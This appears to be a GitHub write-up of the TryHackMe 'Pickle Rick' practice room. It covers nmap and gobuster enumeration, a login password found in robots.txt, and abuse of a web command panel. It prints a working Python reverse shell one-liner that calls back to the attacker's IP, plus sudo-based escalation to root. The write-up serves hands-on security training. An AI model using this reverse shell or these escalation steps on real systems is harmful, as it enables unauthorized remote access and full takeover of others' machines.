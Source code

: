 # TryHackMe-Pickle-Rick
This is a writeup for Pickle Rick TryHackMe machine!  
https://tryhackme.com/room/picklerick

**REMEMBER TO CHANGE THE IP OF THE MACHINE TO THE ONE TRYHACKME ASSIGNED, MINE IS NOT SAME AS YOURS**

## Scanning & Enumeration

To begin with this machine, we will perform a nmap scan on our target:

```
nmap -sV -sC -T5 10.10.122.153
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 01:01 EDT
Nmap scan report for 10.10.122.153
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:d6:1c:ca:5e:5c:3f:14:83:d4:21:07:b1:01:76:c1 (RSA)
|   256 61:2e:22:78:78:b9:d7:7e:c9:77:2d:d3:29:07:07:da (ECDSA)
|_  256 07:64:71:80:17:56:a6:79:61:bd:d4:09:f3:85:15:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Service Enumeration
### Port 22 - SSH
### Port 80 - HTTP

Now we'll proceed to visit the website located at port 80
![image_2024-04-26_001448881](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/028603ac-1f72-4fd7-8b5a-83b00aa96054)
This is the first thing we see on the website, if we take a view on the page source we can find this
![image](https://github.com/trynalearnhacking/TryHackMe-Pickle-Rick/assets/86502006/fdf5cb17-fc73-4978-9208-d79a9da3b1ac)
Looks like we found an username, next, we will proceed to find hidden directories that may have been hidden from us
## Directory Fuzzing
## Using Gobuster
**Gobuster** is a tool used to brute-force:
* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).
* Virtual Host names on target web servers.
* Open Amazon S3 buckets.
* Open Google Cloud buckets.
* TFTP servers
#### If you wish to install Gobuster, here is the link to the official github repository: https://github.com/OJ/gobuster
```
gobuster dir -u 'http://10.10.122.153/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 --no-error -x php,sh,txt,cgi,html,css,js,py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.122.153/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,sh,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1062]
/assets               (Status: 301) [Size: 315] [--> http://10.10.122.153/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```
This are some directory gobuster could find for us, we could be interested in **/login.php** so we will navigate into it
![image_2024-04-26_003529817](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bbb9309b-3f13-431f-9c04-31f441a966f2)
We will find a login page, we already have the username but we lack the password, so we can keep with the directory fuzzing.

At some point, we will encounter a file called **robots.txt**, most websites will have a robots.txt file which basically tells the site what's allowed and not allowed to index.
If we check the robots.txt file we will encounter some sort of password we can use since this could possibly be the password for our **/login.php** so lets try
![image_2024-04-26_004100740](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a0f5cb3e-e8eb-40fd-949e-1416b55078db)
And we were right, it was indeed the password for our **/login.php**
## Command Panel
The site we were redirected has a command panel, so, lets try to execute some simple command to see if it allows us to do so
![image_2024-04-26_004451144](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/9fb45fdf-e904-4727-a731-71c03ef058e0)
And with this, we realize we can actually execute commands, if we try to execute a **cat** in Sup3rS3cretPickl3Ingred.txt, we are disallowed to perform it
![image_2024-04-26_004650641](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/488fe1f4-f619-46bc-a066-36a7ea11114c)
We can read the file if we do this though
```
http://<ip>/Sup3rS3cretPickl3Ingred.txt
```
And like that, we will have the first ingredient

At this point, we could go for two ways on exploiting this machine to get the other ingredientes

## First way
### Getting a reverse shell through command panel
First, we can search the python version with 
```
which python3
which python2
which python
```
We will find this
![image_2024-04-26_005506068](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/00f2e85c-1ce6-4aa0-bb96-c120d5d09188)
Ok, so now we know that python3 is on this machine so lets get a reverse shell using this:
`python3 -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<yourIp>",<listeningPort>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
Before we execute the command we need a netcat set on the port we specified like this

![image_2024-04-26_005931396](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/28f227fb-d676-4c0b-9a7e-5797d115a2bb)

If everything is working right, we will receive a reverse shell on our listening port

![image_2024-04-26_010239772](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/959d6e72-01b1-4c63-a953-ccd4d6226ed5)

We can upgrade this shell using `bash -i`
So, with this shell, we are way more comfortable moving around the machine without needing to use the command panel
Lets search for the other ingredients

![image_2024-04-26_010637175](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/059b7936-ce3a-410b-9197-0cf37deebe78)

If we move to this directory and do a `ls` on it, we will find the second ingredient

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/6fab408b-ff97-424a-ae4e-5d36c30ea34b)

Or we can just ls the directory to see what is inside of it

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a33781a9-c3d7-45c6-9c04-862b6a78352d)

We will find the third ingredient on **/root** but if we try to `cd` on it, we will find we are unable to do it, so lets check for our privileges with `sudo -l`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/70d7d8f8-d240-4304-9b52-8d068f9c4dcc)

To our surprise, all commands are allowed without any password needed so lets just do a `sudo bash -i` to escalate our session into a root one

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/819bc036-1b5d-4891-8c6c-e4ad6652600c)

And just like that we are user root and now we can read the third ingredient within the /root directory

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a3d4301f-0bae-4b87-a2f4-92da370c1481)

## Second Way

If we decide to take this path, we need to proceed with our command panel we already have in **/portal.php** so, lets begin

If we perform a `ls` on the command panel we can also find a file called **clue.txt**, if we go to the route of this file like we did with the first ingredient we will find this

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bce2d97a-308d-4494-89d2-9d8e67583a05)

After a while looking around the system we can find the second ingredient at **/home/rick**

As we know, `cat` command is disabled for the command panel, so if we research around internet we find that we can use `less` command to view the content of the file in the next way
`less '/home/rick/second ingredient'`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/175ef234-c04a-406b-be40-80fc55332fc5)

Like that, we are now able to read the content of the second ingredient, so lets read the content of the third ingredient

Lets use `sudo -l` to see which privileges we have

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/38de0a54-f432-4670-a30e-dccc82807ba9)

And for our surprise we are allowed to perform all commands without the need of any kind of password, lets do a sudo ls /root to check this

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/b6197946-fec0-4e9f-89cc-2954764ee77c)

And like that we were able to find the name of the third ingredient, so if we want to read it, we will just use `less` command in this way 

`sudo less /root/3rd.txt`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/273ecced-a4c1-4e68-8287-fc97c1ec1b7a)

# And just like that you have completed this room!





